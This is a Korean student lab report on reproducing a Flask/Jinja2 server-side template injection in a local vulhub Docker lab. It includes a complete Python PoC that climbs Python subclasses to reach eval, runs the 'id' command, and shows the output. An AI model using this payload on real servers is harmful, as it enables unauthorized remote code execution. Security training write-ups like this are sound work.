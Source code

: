 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

위의 깃허브링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 해당 깃허브 링크를 fork해서 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
### 1.2 프로젝트 clone 및 실행
다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
docker-compose up -d 명령어를 통하여 
![docker-compose up -d 실행결과](./1.png)

### 1.4 브라우저에서 flask 서버 접속
![서버 접속 실행결과](./1.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인
### 1.5 출력 결과 분석
이건 서버가 내가 입력한 것을 내부에서 파이썬 연산처럼 처리했다는 , Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 7 * 7 = 49 계산한 결과를 보여주는 것, 서버가 사용자의 입력을 코드로 실행한 것 = SSTI 발생! 템플릿 엔진이 입력된 수식을 그대로 실행한 결과를 보여주고 이는 SSTI취약점이 존재함을 의미

<br/>

## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)

### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```
![vs code로 poc.py작성](./3.png)

### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.
 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)
> 
### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 이서버는 root권한도 가지고 있다는 뜻

### 2.4 출력 결과 분석
즉, 템플릿 인젝션으로 서버에서 임의 시스템 명령어 실행이 가능했고 실행된 결과로 서버 내부 계정 정보를 탈취할 수 있었다. 따라서 결과적으로 해당 flask 서버의 제어권한을 획득할 수 있었다. 
서버에서  os명령어가 실행되었고 해당 flask 서버가 root권한을 포함하고 있는 것을  확인할 수 있음

<br/>

## 3. 결론

poc.py 스크립트를 통하여 SSTI(Server Side Template Injection) 취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드<`__import__("os").popen("id").read()` 명령어를 실행하는 코드>를 삽입하였다.
따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups 정보를 알려주었다. 
이 실습을 통하여 flask 서버의 SSTI 취약점을 통하여 원격 코드 실행(RCE, Remote Code Execution)수준의 제어가 가능함을 확인할 수 있었으며 공격자는 name 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도할 수 있었다. 즉, 단순 수식 평가뿐 아니라 시스템 명령어인 id같은 명령어까지 실행할 수 있어 서버의 중요 정보인 UID, GID 정보가 노출되는 SSTI 취약점을 확인해 보았다.
이러한 취약점의 경우**원격 명령 실행(RCE)** 으로 이어질 수 있기에 심각한 보안 위협이며, 이에대한 조치가 필요함을 느꼈다.
